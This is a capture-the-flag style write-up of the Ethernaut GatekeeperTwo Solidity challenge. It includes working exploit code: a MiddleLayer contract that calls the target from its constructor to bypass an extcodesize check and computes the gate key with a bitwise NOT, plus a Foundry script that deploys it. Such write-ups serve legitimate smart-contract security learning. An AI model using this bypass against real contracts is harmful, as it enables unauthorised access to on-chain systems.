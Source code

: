 # Ethernaut Level 14 GatekeeperTwo

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

We have to pass three gates to register as an entrant. From `gateOne()` modifier we can see that we have to create a middle layer contract so that `msg.sender` is the middle layer contract which calls the function `enter` while `tx.origin` is our EOA. From the incline assembly inside `gateTwo()` , we can see that the `extcodesize(caller())` has to be 0. In assembly, `caller()` is equivalent to `msg.sender` in Solidity. `extcodesize()` == 0 basically means that the length of the *deployed* code from the address should be 0. It seems contradictory since we have to call function `enter()` inside the `MiddleLayer` logic, and it cannot be an empty contract. However, we can do a little bit trick in the `constrcutor` of  `MiddleLayer`. We will call function `enter()` inside the `constructor` since during the execution of the `constructor`, the *runtime code* is not yet deployed, thus meet the requirement from `gateTwo()`.

From `gateThree()` we can see that `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey)` has to be all 1 in bits, which means that the `_gateKey` has to be different with `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))` bitwise. We can easily calculate the `_gateKey` using `~` bitwise Not.

`MiddleLayer.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MiddleLayer {
    constructor(address gatekeeperAddress) {
        uint64 temp = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 key = ~ temp;

        (bool success, ) = gatekeeperAddress.call(
            abi.encodeWithSignature("enter(bytes8)", bytes8(key))
        );
        require(success, "Failed to enter the gatekeeper");
    }
}
```

We can see that all the logic of the contract is inside the `constructor`. 

`GatekeeperTwo.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {GatekeeperTwo} from "../src/GatekeeperTwo.sol";
import {MiddleLayer} from "../src/MiddleLayer.sol";

contract GatekeeperTwoScript is Script {
    GatekeeperTwo gatekeeperTwo = GatekeeperTwo(0xXXXXXXXXXXX);
    MiddleLayer middleLayer;

    function run() external {
        console.log("Current entrant is:", gatekeeperTwo.entrant());
        vm.startBroadcast();
        middleLayer = new MiddleLayer(address(gatekeeperTwo));
        vm.stopBroadcast();
        console.log("Entrant is:", gatekeeperTwo.entrant());
    }
}
```

All we have to do in the script is to simply deploy the `middleLayer` which triggers the `constructor`.